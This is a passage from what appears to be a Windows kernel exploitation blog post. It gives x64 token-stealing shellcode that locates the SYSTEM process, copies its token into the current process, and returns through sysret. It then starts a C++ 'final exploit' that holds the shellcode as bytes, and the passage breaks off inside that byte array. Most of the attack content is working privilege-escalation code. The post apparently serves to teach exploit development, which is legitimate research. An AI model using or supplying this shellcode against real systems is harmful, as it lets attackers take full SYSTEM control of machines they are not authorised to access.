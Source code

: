 While this will work fine and replace the token – we are still in an IOCTL and have messed with the stack. Just returning from here will cause a BSOD. There are at least 2 possibilities here – either we figure out how to restore the stack to the point where we can return somewhere that will not crash or use [a generic way](https://kristal-g.github.io/2021/05/08/SYSRET_Shellcode.html) to avoid crashes.

For this post we choose the generic way by [Kristal ](https://twitter.com/gal_kristal)and append our shellcode:

```
[BITS 64]
start:
  mov rax, [gs:0x188]       ; KPCRB.CurrentThread (_KTHREAD)
  mov rax, [rax + 0xb8]     ; APCState.Process (current _EPROCESS)
  mov r8, rax               ; Store current _EPROCESS ptr in RBX

loop:
  mov r8, [r8 + 0x448]      ; ActiveProcessLinks
  sub r8, 0x448             ; Go back to start of _EPROCESS
  mov r9, [r8 + 0x440]      ; UniqueProcessId (PID)
  cmp r9, 4                 ; SYSTEM PID? 
  jnz loop                  ; Loop until PID == 4

replace:
  mov rcx, [r8 + 0x4b8]      ; Get SYSTEM token
  and cl, 0xf0               ; Clear low 4 bits of _EX_FAST_REF structure
  mov [rax + 0x4b8], rcx     ; Copy SYSTEM token to current process

cleanup:
  mov rax, [gs:0x188]       ; _KPCR.Prcb.CurrentThread
  mov cx, [rax + 0x1e4]     ; KTHREAD.KernelApcDisable
  inc cx
  mov [rax + 0x1e4], cx
  mov rdx, [rax + 0x90]     ; ETHREAD.TrapFrame
  mov rcx, [rdx + 0x168]    ; ETHREAD.TrapFrame.Rip
  mov r11, [rdx + 0x178]    ; ETHREAD.TrapFrame.EFlags
  mov rsp, [rdx + 0x180]    ; ETHREAD.TrapFrame.Rsp
  mov rbp, [rdx + 0x158]    ; ETHREAD.TrapFrame.Rbp
  xor eax, eax  ;
  swapgs
  o64 sysret  
```

## Final Exploit

This makes our full exploit:

```cpp
#include <stdio.h>
#include <Windows.h>
#include <winternl.h>
#include <Psapi.h>

#define QWORD ULONGLONG

BYTE sc[256] = {
  0x65, 0x48, 0x8b, 0x04, 0x25, 0x88, 0x01, 0x00, 0x00, 0x48,
  0x8b, 0x80, 0xb8, 0x00, 0x00, 0x00, 0x49, 0x89, 0xc0, 0x4d,
  0x8b, 0x80, 0x48, 0x04, 0x00, 0x00, 0x49, 0x81, 0xe8, 0x48,
  0x04, 0x00, 0x00, 0x4d, 0x8b, 0x88, 0x40, 0x04, 0x00, 0x00,
  0x49, 0x83, 0xf9, 0x04, 0x75, 0xe5, 0x49, 0x8b, 0x88, 0xb8,
  0x04, 0x00, 0x00, 0x80, 0xe1, 0xf0, 0x48, 0x89, 0x88, 0xb8,
  0x04, 0x00, 0x00, 0x65, 0x48, 0x8b, 0x04, 0x25, 0x88, 0x01,
  0x00, 0x00, 0x66, 0x8b, 0x88, 0xe4, 0x01, 0x00, 0x00, 0x66,
  0xff, 0xc1, 0x66, 0x89, 0x88, 0xe4, 0x01, 0x00, 0x00, 0x48,
```